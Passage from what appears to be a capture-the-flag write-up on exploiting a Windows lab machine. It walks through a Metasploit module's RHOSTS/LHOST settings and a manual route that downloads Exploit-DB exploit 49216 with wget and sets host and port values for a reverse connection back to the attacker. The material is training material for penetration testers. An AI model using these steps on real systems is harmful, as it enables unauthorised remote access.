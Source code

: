 ```bash


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.
```
Looks like we need to change RHOSTS and LHOST with the `set` command. 

Example

```bash
set RHOSTS <IP>
```
Now that we have our settings set. Now we can exploit the machine with the 
`exploit` command 

![Exploit works]()

Now that we are in the system now we can look around and [get the flag](#getting-the-flag)

#### Manual Exploitation  

Manual Exploitation is more involved than using metasploit.
First thing we need to do is to install the exploit.
there are two way to can install the exploit one is being to open a web browser
and then going to this site https://www.exploit-db.com/exploits/49216 and ether
copying it into a python file or downloading it. 
Another options is to use the `wget` command to install it. 

> This exploit need python, If your using kali you should be fine. 

```bash
wget https://www.exploit-db.com/exploits/49216
```
after install the exploit. and use the `cat` command we notice that we have to 
change this part in the exploit.



```
HOST='192.168.1.1'
PORT=17001
LHOST='192.168.1.2'
LPORT=4444
```

you can use any text editor. To change it 
we are going to change it to this.

```
HOST='<Target IP>'
PORT=17001
LHOST='<Our attack machine IP>'
LPORT=5757
```
HOST - is the machine we want to use the exploit on, AKA the target.
PORT - is the port that the exploit will used.
LHOST - is the IP that the target will used to connect back to our attacker 
machine.
LPORT - is the port that the target used to connect to our attack machine.
